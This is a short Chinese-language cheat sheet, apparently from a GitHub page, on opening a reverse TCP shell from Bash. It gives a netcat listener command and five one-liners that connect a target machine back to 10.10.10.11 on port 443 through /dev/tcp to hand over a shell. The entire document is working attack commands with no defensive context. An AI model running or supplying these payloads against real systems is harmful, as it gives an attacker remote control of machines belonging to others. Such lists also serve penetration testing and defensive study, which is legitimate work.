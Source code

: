 # Bash环境下反弹TCP协议shell


首先在本地监听TCP协议443端口

```bash
nc -lvp 443

```

然后在靶机上执行如下命令：

```bash
bash -i >& /dev/tcp/10.10.10.11/443 0>&1

```

```bash
/bin/bash -i > /dev/tcp/10.10.10.11/443 0<& 2>&1

```

```bash
exec 5<>/dev/tcp/10.10.10.11/443;cat <&5 | while read line; do $line 2>&5 >&5; done

```

```bash
exec /bin/sh 0</dev/tcp/10.10.10.11/443 1>&0 2>&0

```

```bash
0<&196;exec 196<>/dev/tcp/10.10.10.11/443; sh <&196 >&196 2>&196

```


